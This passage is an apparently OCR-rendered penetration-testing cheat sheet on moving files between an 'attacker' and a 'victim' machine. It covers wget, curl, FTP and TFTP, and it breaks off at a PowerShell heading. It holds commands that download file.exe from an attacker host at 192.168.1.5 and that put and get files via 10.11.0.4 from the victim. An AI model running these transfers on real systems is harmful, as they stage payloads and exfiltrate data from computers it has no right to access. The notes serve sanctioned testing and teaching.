     -   **WGET**

        -   python -m SimpleHTTPserver \#attacker

        -   wget <http://192.168.1.5/file.exe>

    -   **CURL**

        -   python -m SimpleHTTPserver \#attacker

        -   curl -O  http://192.168.1.5/file.exe

    -   **FTP**

        -   apt-get install vsftpd // attacker machine

        -   nano /etc/vsftpd.conf =\> write\_enable=YES

        -   useradd -m test

        -   passwd test

        -   service vsftp start

        -   apt-get install ftp //victim machine

        -   ftp \<attacker\_ip\>

        -   enter username : test \| password: test

        -   choose between {ascii \| binary}

        -   help

        -   {lcd/!ls} = print current directory and list files on local host

        -   {pwd/ls} = print current directory and list files on remote host

        -   Get \<path in the target pc \> \<location to download on m path\>

        -   Put \<path in my pc \> \<location to upload on target pc\>

        -   Another method : //victim machine

            -   Or make a file ex ftp\_script.txt with ftp scripts that download a file

            -   ftp --v --n --s:ftp\_script.txt

    -   **TFTP**

        -   sudo apt update && sudo apt install atftp   //on attacker machine

        -   sudo mkdir /tftp

        -   sudo chown nobody: /tftp

        -   sudo atftpd \--daemon \--port 69 /tftp

        -   tftp -i 10.11.0.4 put file.txt    //on victim

        -   tftp -i 10.11.0.4 get file.txt    //on victim

    -   **POWERSHELL**

        -   python -m SimpleHTTPserver \#attacker
